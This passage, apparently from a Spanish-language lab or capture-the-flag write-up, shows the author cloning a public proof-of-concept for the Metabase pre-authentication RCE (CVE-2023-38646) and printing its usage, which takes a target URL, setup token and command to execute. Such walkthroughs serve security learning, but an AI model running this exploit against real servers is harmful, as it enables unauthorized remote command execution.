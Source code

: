 <figure><img src="../../.gitbook/assets/imagen (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt="" width="563"><figcaption></figcaption></figure>

Nos encontramos con el siguiente repositorio con un PoC del exploit. Nos lo descargaremos el repositorio en nuestro equipo y visualizaremos el funcionamiento del exploit `main.py`.

{% embed url="https://github.com/m3m0o/metabase-pre-auth-rce-poc" %}

```bash
❯ git clone https://github.com/m3m0o/metabase-pre-auth-rce-poc; cd metabase-pre-auth-rce-poc
Clonando en 'metabase-pre-auth-rce-poc'...
remote: Enumerating objects: 26, done.
remote: Counting objects: 100% (26/26), done.
remote: Compressing objects: 100% (24/24), done.
remote: Total 26 (delta 12), reused 2 (delta 1), pack-reused 0 (from 0)
Recibiendo objetos: 100% (26/26), 12.09 KiB | 275.00 KiB/s, listo.
Resolviendo deltas: 100% (12/12), listo.

❯ python3 main.py -h
usage: This script causes a server running Metabase (< 0.46.6.1 for open-source edition and < 1.46.6.1 for enterprise edition) to execute a command through the security flaw described in CVE 2023-38646

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Target URL
  -t TOKEN, --token TOKEN
                        Setup Token from /api/session/properties
  -c COMMAND, --command COMMAND
                        Command to be execute in the target host
```
